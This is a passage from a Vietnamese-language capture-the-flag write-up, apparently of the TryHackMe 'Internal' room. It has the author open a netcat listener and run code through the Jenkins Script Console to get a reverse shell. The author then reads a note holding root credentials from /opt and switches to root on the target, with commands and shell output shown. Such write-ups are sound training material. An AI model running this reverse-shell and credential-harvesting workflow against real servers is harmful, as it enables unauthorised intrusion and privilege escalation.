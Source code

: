 Vào Jenkins > Manage Jenkins > Script Console và nhập đoạn code phía trên vào. À tuy nhiên trước đó thì phải tạo listener với port 12345: `nc -lnvp 1235`

![script-console](/assets/img/2021-12-05-THM-Internal/9.webp)

```python
┌──(neo㉿kali)-[~]
└─$ nc -lnvp 12345                
listening on [any] 12345 ...
connect to [10.18.3.74] from (UNKNOWN) [10.10.51.65] 56774
id
uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
ls
bin   dev  home  lib64  mnt  proc  run   srv  tmp  var
boot  etc  lib   media  opt  root  sbin  sys  usr
```

Lần này tôi thử vào */opt* luôn xem có gì trong này như lần đầu không.

```python
cd /opt/
ls
note.txt
cat note.txt 
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:****************
```

Thử đổi sang user *root*. À tôi quên mất đây chỉ là server jenkins nên tôi sẽ quay về target machine với user *aubreanna* và đổi sang *root*

```python
aubreanna@internal:~$ su root
Password: 
root@internal:/home/aubreanna# cd
root@internal:~# ls
root.txt  snap
root@internal:~# 
```

